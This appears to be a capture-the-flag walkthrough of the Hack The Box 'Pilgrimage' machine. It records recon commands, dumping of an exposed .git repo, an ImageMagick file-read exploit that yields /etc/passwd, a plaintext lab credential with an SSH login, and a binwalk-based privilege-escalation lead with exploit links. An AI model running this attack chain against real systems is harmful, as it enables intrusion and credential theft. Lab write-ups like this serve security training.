

1. Scan and found 22-80 open
2. Add DNS to hosts file
3. nmap -p- -T4 --min-rate 5000 -sCV -o pilgrimage pilgrimage.htb

```shell
dirsearch -u http://pilgrimage.htb/.git/              

  _|. _ _  _  _  _ _|_    v0.4.2
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 30 | Wordlist size: 10927

Output File: /home/dyallo/.dirsearch/reports/pilgrimage.htb/-.git-_24-06-08_17-40-47.txt

Error Log: /home/dyallo/.dirsearch/logs/errors-24-06-08_17-40-47.log

Target: http://pilgrimage.htb/.git/

[17:40:48] Starting: 
[17:40:56] 403 -  555B  - /.git/.ht_wsr.txt
[17:40:56] 403 -  555B  - /.git/.htaccess.bak1
[17:40:56] 403 -  555B  - /.git/.htaccess.orig
[17:40:56] 403 -  555B  - /.git/.htaccess.sample
[17:40:56] 403 -  555B  - /.git/.htaccess.save
[17:40:56] 403 -  555B  - /.git/.htaccess_extra
[17:40:56] 403 -  555B  - /.git/.htaccess_orig
[17:40:56] 403 -  555B  - /.git/.htaccess_sc
[17:40:56] 403 -  555B  - /.git/.htaccessOLD
[17:40:56] 403 -  555B  - /.git/.htaccessBAK
[17:40:56] 403 -  555B  - /.git/.htaccessOLD2
[17:40:56] 403 -  555B  - /.git/.htm
[17:40:56] 403 -  555B  - /.git/.html
[17:40:56] 403 -  555B  - /.git/.htpasswd_test
[17:40:56] 403 -  555B  - /.git/.htpasswds
[17:40:56] 403 -  555B  - /.git/.httr-oauth
[17:41:12] 403 -  555B  - /.git/admin/.htaccess
[17:41:19] 403 -  555B  - /.git/administrator/.htaccess
[17:41:22] 403 -  555B  - /.git/app/.htaccess
[17:41:28] 200 -   92B  - /.git/config
[17:41:45] 200 -    4KB - /.git/index
[17:41:46] 301 -  169B  - /.git/info  ->  http://pilgrimage.htb/.git/info/
[17:41:53] 301 -  169B  - /.git/logs  ->  http://pilgrimage.htb/.git/logs/
[17:41:53] 403 -  555B  - /.git/logs/
[17:41:58] 301 -  169B  - /.git/objects  ->  http://pilgrimage.htb/.git/objects/
```

```shell
git-dumper http://pilgrimage.htb/.git repository
./repository/magick --version
Version: ImageMagick 7.1.0-49 beta Q16-HDRI x86_64 c243c9281:20220911 https://imagemagick.org
Copyright: (C) 1999 ImageMagick Studio LLC
License: https://imagemagick.org/script/license.php
Features: Cipher DPC HDRI OpenMP(4.5) 
Delegates (built-in): bzlib djvu fontconfig freetype jbig jng jpeg lcms lqr lzma openexr png raqm tiff webp x xml zlib
Compiler: gcc (7.5)
```

```shell
searchsploit ImageMagick 7.1.0-49       
------------------------------------------------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                                                              |  Path
------------------------------------------------------------------------------------------------------------ ---------------------------------
ImageMagick 7.1.0-49 - Arbitrary File Read                                                                  | multiple/local/51261.txt
ImageMagick 7.1.0-49 - DoS                                                                                  | php/dos/51256.txt
------------------------------------------------------------------------------------------------------------ ---------------------------------
```

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:109::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:104:110:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
emily:x:1000:1000:emily,,,:/home/emily:/bin/bash
```

```
emily|abigchonkyboi123
```

```shell
ssh emily@pilgrimage.htb
```

```bash
/usr/bin/gettext.sh
/usr/sbin/malwarescan.sh
```

```bash
 cat /usr/sbin/malwarescan.sh 
#!/bin/bash

blacklist=("Executable script" "Microsoft executable")

/usr/bin/inotifywait -m -e create /var/www/pilgrimage.htb/shrunk/ | while read FILE; do
        filename="/var/www/pilgrimage.htb/shrunk/$(/usr/bin/echo "$FILE" | /usr/bin/tail -n 1 | /usr/bin/sed -n -e 's/^.*CREATE //p')"
        binout="$(/usr/local/bin/binwalk -e "$filename")"
        for banned in "${blacklist[@]}"; do
                if [[ "$binout" == *"$banned"* ]]; then
                        /usr/bin/rm "$filename"
                        break
                fi
        done
done
```



## Versions

- OpenSSH 8.4p1
- nginx 1.18.0
- Sudo version 1.9.5p2

## Links

- https://www.exploit-db.com/exploits/51249
- https://nvd.nist.gov/vuln/detail/CVE-2022-4510
- https://www.rapidtables.com/convert/number/hex-to-ascii.html
- https://github.com/voidz0r/CVE-2022-44268.git
- https://github.com/Sybil-Scan/imagemagick-lfi-poc
- https://medium.com/stolabs/git-exposed-how-to-identify-and-exploit-62df3c165c37
- https://github.com/arthaud/git-dumper